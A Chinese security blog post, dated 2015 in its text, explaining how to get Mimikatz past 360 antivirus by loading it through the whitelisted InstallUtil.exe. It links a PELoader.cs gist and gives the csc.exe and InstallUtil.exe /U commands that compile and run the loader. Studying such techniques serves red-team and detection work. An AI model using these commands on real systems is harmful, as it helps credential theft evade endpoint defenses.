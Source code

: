 # 利用白名单绕过360实例

0x00 前言
=======

* * *

最近`subTee`在其博客中介绍了如何利用白名单绕过防护，但细节存在`bug`，所以本文仅介绍如何修复其`bug`并利用该方法绕过`360`，更多利用方法值得探索

博客链接：

[http://subt0x10.blogspot.hk/](http://subt0x10.blogspot.hk/)（需翻墙）

文章地址：

[http://subt0x10.blogspot.hk/2015/08/application-whitelisting-bypasses-101.html](http://subt0x10.blogspot.hk/2015/08/application-whitelisting-bypasses-101.html)（需翻墙）

0x01 测试目标
=========

下载最新版本`Mimikatz`，实现绕过杀毒软件的查杀。

0x02 测试环境
=========

* * *

操作系统：`Win7 x64`

mimikatz版本：`2.0 alpha 20150906 (oe.eo) edition`（目前为止最新）

下载链接：[https://github.com/gentilkiwi/mimikatz/releases/tag/2.0.0-alpha-20150906](https://github.com/gentilkiwi/mimikatz/releases/tag/2.0.0-alpha-20150906)

测试日期：9/14/2015

0x03 实际测试
=========

* * *

建议先了解参考链接，链接中提到的相关基础知识不做再次介绍

### 1、下载最新mimikatz，测试查杀情况

毫无疑问，被查杀，如图

![enter image description here](http://drops.javaweb.org/uploads/images/69796d8ae21d3964223258558a4293054caf4c04.jpg)

### 2、利用InstallUtil.exe执行程序

**（1）**下载[https://gist.github.com/subTee/00cdac8990584bd2c2fe](https://gist.github.com/subTee/00cdac8990584bd2c2fe)并保存为`PELoader.cs`

**（2）**参照博客中的示例，执行如下代码：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs


C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe

```
